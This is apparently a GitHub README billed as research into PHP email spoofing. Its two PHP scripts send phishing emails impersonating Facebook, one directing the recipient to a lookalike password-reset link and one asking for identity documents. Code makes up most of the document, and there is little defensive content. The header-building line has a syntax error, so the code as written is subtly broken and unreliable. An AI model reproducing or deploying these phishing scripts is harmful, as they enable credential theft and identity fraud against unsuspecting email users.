 # Email-Spoofing-PHP
Breakdown on security research into PHP Email Spoofing.
    

   
## Example 1   
```
<?php
$from = "reallookingemail@fbsecurity.com";
$to = "targetemail@gmail.com";
$display = "FB Security";
$subject = "Password Data Breach";
$message = '<h5>Data Breached</h5><p>Unfortunately we\'ve recently suffered a password database breach on our system, please change your password by following this link. <br><br>Please open this link in your browser or click on the link to automatically be taken to the address.<br><a href="fbsecurity.com/">Password Reset</a></p>';
$reply = "security@facebook.com";

header('Content-type: text/plain;');
$ok = sendSpoofMail($to,$from,$display,$subject,$message,$reply);

echo $ok ? "Sending Passed":"Sending Failed";

function sendSpoofMail($to,$from, $display,$subject,$message,$reply)
{
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";

$headers .= 'From: '.$display.' <'.$from'>'."\r\n".
    'Reply-To: '.$reply."\r\n" .
    'X-Mailer: PHP/' . phpversion();

$msg  = '<html><body>';
$msg .= $message;
$msg .= '</body></html>';

  if(mail($to, $subject, $msg, $headers)){
             return true;
              } else{
             return false;
     }

}
```

> Example PHP Phishing - Using Email Sender Name and ReplyTo.
   
Results in an email from "FB Security" prompting to update password at a fake link.   
   
  
## Example 2   
> In this example we are changing the $from address to spoof a real email address - this is the old method that doesn't work because most provider's will block the fake email address by checking the domains mail (mx) records.
```   
<?php
$from = "support@facebook.com";
$to = "targetemail@gmail.com";

$display = "Facebook";
$subject = "Security Breach";
$message = '<h4>Facebook</h4><p>Unfortunately we\'ve recently suffered a secure database breach on our system, please confirm your identity by replying to this message and attaching 100 points of ID.<br>Security is very important to us at Facebook and we must ask people to now provide identification details to further ensure your safety on our network, we are sorry for this inconvenience. </p>';
$reply = "support@fbsecurity.com";

header('Content-type: text/plain;');
$ok = sendSpoofMail($to,$from,$display,$subject,$message,$reply);

echo $ok ? "Sending Passed":"Sending Failed";

function sendSpoofMail($to,$from, $display,$subject,$message,$reply)
{
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";

$headers .= 'From: '.$display.' <'.$from'>'."\r\n".
    'Reply-To: '.$reply."\r\n" .
    'X-Mailer: PHP/' . phpversion();

$msg  = '<html><body>';
$msg .= $message;
$msg .= '</body></html>';

  if(mail($to, $subject, $msg, $headers)){
             return true;
              } else{
             return false;
     }

}   
```
> Here the attacker has spoofed the From Email address and the Name of the email sender, asking for details. 
  
 
## Example 3 
> Here we look at SMTP, the same Changing of From Address occurs.
 
   
Example 1 & 2.    
![screen](Screenshot_20210313-174712.jpg).   
![screen](Screenshot_20210313-174722.jpg)   

